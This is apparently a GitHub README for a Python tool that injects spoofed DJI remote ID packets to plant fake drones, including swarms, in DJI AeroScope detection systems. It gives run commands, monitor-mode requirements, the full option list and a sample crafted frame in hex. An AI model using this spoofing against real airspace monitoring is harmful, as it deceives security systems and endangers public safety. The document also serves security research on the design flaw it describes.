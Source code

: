 # DJI Drone Spoof Attack
A Python-based command-line tool to simulate DJI drones in the vicinity, exploiting the vulnerabilities in DJI AeroScope *as of May 2022*

## Background
[DJI AeroScope](https://www.dji.com/aeroscope) systems do not verify the validity of drone remote ID packets, making them susceptible to over-the-air spoofing attacks. An attacker equipped with a network adapter in monitor mode can craft and inject spoofed drone remote ID packets, fooling the AeroScope system into detecting fake drones.

These over-the-air spoofing attacks cannot be mitigated because they exploit an inherent design flaw in DJI’s remote identification technology—**the lack of identity verification**.

## Tool Overview
This Python script enables attackers to create spoofed DJI drone remote ID packets, including:

* **Model:** customize fake drone models
* **Packet Type:** choose between different remote ID packet types
* **Altitude & Height:** specify values to simulate drone movements
* **GPS Coordinates:** spoof drone and ground station locations
* **Swarm Attack:** simulate a coordinated swarm of drones (`--swarm`)

The spoofed packets are saved in a packet capture `.pcap` file, allowing for analysis or replay attacks. 

The tool supports the generation of various packet types, including[^1]:

* Generic License Plate (serial number only)
* Enhanced Wi-Fi packets
* OcuSync packets

## Disclaimer
This tool is intended for educational purposes only. Do not use it for illegal activities, and always respect local regulations regarding drone usage and airspace security.

## Requirements
To run this tool, you'll need:

* Python dependencies: `scapy`, `binascii`, etc.
* Network adapter: capable of being set to monitor mode on channel 6 via `airmon-ng` package

## Usage

### Basic Command
`sudo python3 dji_spoof.py`

If no drone specified, the script will default to Inspire 1 with legitimate random serial numbers. 

### Help Menu
`sudo python3 dji_spoof.py -h`

This displays all possible command-line arguments:

```
A DJI Remote ID spoofer for UAVs.

optional arguments:
  -h, --help            show this help message and exit
  -m MODEL, --model MODEL
                        Specify the DJI model number to spoof (Inspire 1 is default).
                        A legitimate random serial number will be generated per model.

  -i INTERFACE, --interface INTERFACE
                        the network interface to launch attacks
  --packet PACKET       Input the packet type:

                            0: Generic License Plate (serial number only, not model)
                            2: Enhanced Wi-Fi
                            3: OcuSync (SDR)

  --altitude ALTITUDE   Input the altitude of the drone
  --height HEIGHT       Input the height of the drone
  --DRONE_LON DRONE_LON
                        Input the longitude of the drone
  --DRONE_LAT DRONE_LAT
                        Input the latitude of the drone
  --CONTROLLER_LON CONTROLLER_LON
                        Input the longitude of the controller
  --CONTROLLER_LAT CONTROLLER_LAT
                        Input the latitude of the controller
  --swarm               Flag to enable a swarm drone attack on the AeroScope
  --pcap PCAP           Save the attack as a .pcap file
```

### Spoofed Inspire 1 Example
```
[+] MODEL: Inspire 1
[+] SERIAL NO.: W215AAOZCSAFUJ34
[+] DRONE HEIGHT: 22.4
[+] DRONE LONGITUDE: -110.012052
[+] DRONE LATITUDE: 35.294722
[+] CONTROLLER LONGITUDE: -95.957371
[+] CONTROLLER LATITUDE: 35.284722
[+] PACKET TYPE: Enhanced Wi-Fi (2)

====================== Frame =========================
0000  00 00 08 00 00 00 00 00 80 00 00 00 FF FF FF FF  ................
0010  FF FF 01 02 03 04 05 06 01 02 03 04 05 06 00 00  ................
0020  00 08 36 52 53 47 4E 4A 57 35 01 04 01 05 07 09  ..6RSGNJW5......
0030  03 01 0B DD 52 26 37 12 58 62 13 10 01 41 00 DF  ....R&7.Xb...A..
0040  0F 57 32 31 35 41 41 4F 5A 43 53 41 46 55 4A 33  .W215AAOZCSAFUJ3
0050  34 2B 05 DB FE DB FE 5D 00 81 00 E0 00 43 00 B8  4+.....].....C..
0060  00 3E 00 D9 00 75 00 17 00 38 73 00 FF 09 F8 5D  .>...u...8s....]
0070  00 01 12 35 37 36 39 36 33 39 33 39 32 34 32 39  ...5769639392429
0080  39 31 31 31 31 00 00                             91111..

[*] Press enter to launch attack...
```

## Licensing
This project is licensed under the terms of the MIT license.

[^1]: https://www.researchgate.net/profile/Margaret-Smith-18/publication/372509234_The_Irregulars_Third-Party_Cyber_Actors_and_Digital_Resistance_Movements_in_the_Ukraine_Conflict/links/660bddad10ca867987365aff/The-Irregulars-Third-Party-Cyber-Actors-and-Digital-Resistance-Movements-in-the-Ukraine-Conflict.pdf#page=295
